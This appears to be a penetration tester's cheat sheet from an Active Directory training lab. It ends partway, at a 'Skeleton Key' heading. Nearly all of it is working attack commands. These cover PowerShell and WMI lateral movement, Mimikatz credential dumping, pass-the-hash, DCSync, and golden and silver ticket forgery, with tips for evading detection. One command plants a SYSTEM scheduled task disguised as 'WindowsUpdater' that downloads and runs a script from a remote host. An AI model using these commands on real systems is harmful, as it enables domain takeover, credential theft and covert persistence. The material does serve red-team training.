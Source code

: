 ## Lateral Movement and Remote Control
* `Enter-PSSession -ComputerName dcorp-adminsrv` 
  * When connected, prompt becomes `[dcorp-adminsrv]: PS C:\Users\username\Documents>`
  * To enable on target: `Enable-PSRemoting`
* `Invoke-Command -ScriptBlock {Get-Process} -ComputerName (Get-Content list.txt)` Runs commands in parallel on all computers in list.txt (One-to-Many Remoting)
* `$sess = New-PSSession -ComputerName dcorp-adminsrv`
* `Invoke-Command -ScriptBlock {Get-Process} -Session $sess` When using a `-Session` parameter, state is preserved between commands (e.g. variables continue to exist, etc)
* `Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess`
* `Invoke-Command -FilePath C:\ad\tools\Invoke-Mimikatz.ps1 -Session $sess`
* WMI *Note: No output - pipe to file or run reverse shell etc*
  * `wmic process call create "powershell -c ""whoami; sleep 10"" "` (add `/node:<IP> /user:<user> /password:<pass>` for remote)
  * `Invoke-WmiMethod -Class win32_process -name create -ArgumentList "powershell -c ""whoami;sleep 10;"" " -ComputerName dcorp-dc` 

<hr/>

## Persistence

### Mimikatz
* Dump creds: `Invoke-Mimikatz` (runs default mimikatz cmd `sekurlsa::logonpasswords`)
* Export tickets `sekurlsa::tickets /export`
* Pass the Hash: `Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:5f4dcc3b5aa765d61d8327deb882cf99 /run:powershell.exe"'`
  * To evade some detection of PTH, include the other hash types as well as ntlm `/aes256:<hash> /aes128:<hash> /ntlm:</hash>`
* Golden Ticket
  * Execute mimikatz on DC as Domain Admin to get krbtgt hash `Invoke-Mimikatz -Command '"lsadump::lsa /patch"'` **OR** on any computer as Domain Admin to get krbtgt hash `Invoke-Mimikatz -command '"lsadump::dcsync /user:dcorp\krbtgt"'` ALSO (untested): `lsadump::samrpc /patch` (on DC)
  * Now we can generate a Golden Ticket using this hash `Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-211123506631-3219952063-538504511 /krbtgt:5f4dcc3b5aa765d61d8327deb882cf99 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'`   (use `Get-ADDomain` to get SID of domain). Instead of `/ptt` (injected in memory), can use `/ticket` to save to a file. This *may sometimes* help evade detection
  * Now we can access network services (eg use `ls`, `schtasks`, `PsExec` etc on remote machines as the user specified)
  * `klist` to view cached tickets  
  * To evade some detection, use `/aes256:<aes256keysofkrbtgt>`  
  * Golden ticket with SID history instead of group: 1. `kerberos::golden /user:administrator /domain:dollarcorp.moneycorp.local /krbtgt:<rc4 hash> /sid:<SID of dollarcorp domain (no RID)> /sids:<SID of EA group> /ticket:<filename>` 2. `kerberos::ptt <filename>` 3. `ls \\mcorp-dc.moneycorp.local\c$`
* Silver Ticket
  * Get DC's hash from domain controller `Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`
  * Generate Silver Ticket using this hash `Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:ced263f98377ccf165278ae2b549ddcd /User:Administrator /ptt"'` SID is domain SID without final RID portion
  * Now we can get code execution using schtasks and our HOST ticket: `schtasks /create /s dcorp-dc.dollarcorp.moneycorp.local /ru "NT AUTHORITY\SYSTEM" /sc weekly /tn "WindowsUpdater" /tr "powershell.exe -c 'iex((new-object net.webclient).downloadstring('''http://172.16.99.32/callme.ps1'''))'"` then `schtasks /S dcorp-dc.dollarcorp.moneycorp.local /run /tn windowsupdater`
  * Different services require different SPN ticket(s)
    * WMI -> HOST, RPCSS
    * WinRM -> HOST, HTTP 
    * PS Remoting -> HOST, HTTP (maybe also WSMAN, RPCSS)
    * schtasks -> HOST
    * Win File Share (CIFS) -> CIFS
    * LDAP -> LDAP
* Skeleton Key